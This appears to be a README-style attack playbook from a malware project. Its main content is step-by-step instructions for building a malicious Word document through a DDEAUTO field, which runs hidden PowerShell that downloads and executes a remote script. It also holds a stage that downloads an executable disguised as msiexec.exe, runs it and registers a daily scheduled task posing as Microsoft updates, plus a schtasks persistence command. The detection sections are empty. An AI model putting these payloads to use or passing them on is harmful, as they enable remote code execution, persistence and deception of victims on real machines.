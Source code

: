 ## Dynamic Data Exchange

### Exploit Syntax: 

1. Create a txt file named `stage2.txt`

    ```sh
    subl ~/cyber_gambit/resources/malware/stage2.txt
    ```
2. Paste in the powershell below.

   ```powershell
   $url = "http://cpuprok.com/en-us/microsoft-365/update"
   $outpath = "$env:USERPROFILE\msiexec.exe"
   iwr -uri $url -outfile $outpath
   start-process -filepath $outpath
   $action = New-ScheduledTaskAction -Execute $outpath
   $trigger = New-ScheduledTaskTrigger -Daily -At 9am
   Register-ScheduledTask -Action $action -Trigger $trigger -Taskname "MSUpdateCheck" -Description "This task grabs Microsoft Official Updates."
   ```
  > NOTE: Any varibles above can be changed out. 
3. Open a Microsoft Word Document

4. Navigate to the tool bar the at top and select the insert tab

   <img src="./Resources/gifs/Insert_Tab.gif" alt="Insert_Tab.gif" width="800">

5. Under Quick Parts dropdown select Field then press ok.

   <img src="/Resources/gifs/Step2_Adding_Object-720p.gif" alt="addingobject" width="500">

6. Right Click toggle field codes and paste the contents below within the `{}` :
    ```powershell 
    { DDEAUTO "C:\\Programs\\Microsoft\\Office\\MSWord.exe\\..\\..\\..\\..\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('http://[webserver ip:port]/[saved ps1 file].ps1');powershell $e # " "for security reasons"}
    ```
    > NOTE: Nake sure to set your url and file name 

   <img src="/Resources/gifs/Step3_Adding_DDEAuto-720p.gif" alt="addingobject" width="800">

7. Save the document.

### Detection Method

### Resources    

---

## Job Scheduling

```powershell 
SCHTASKS /CREATE /SC DAILY /TN "MyTasks\Notepad task" /TR "Path to the executable you want to run" /ST 11:00
```

### Exploit Syntax

### Detection Method
### Resources

---

## Title

### Exploit Syntax
### Detection Method
### Resources

---

## Title

### Exploit Syntax
### Detection Method
### Resources
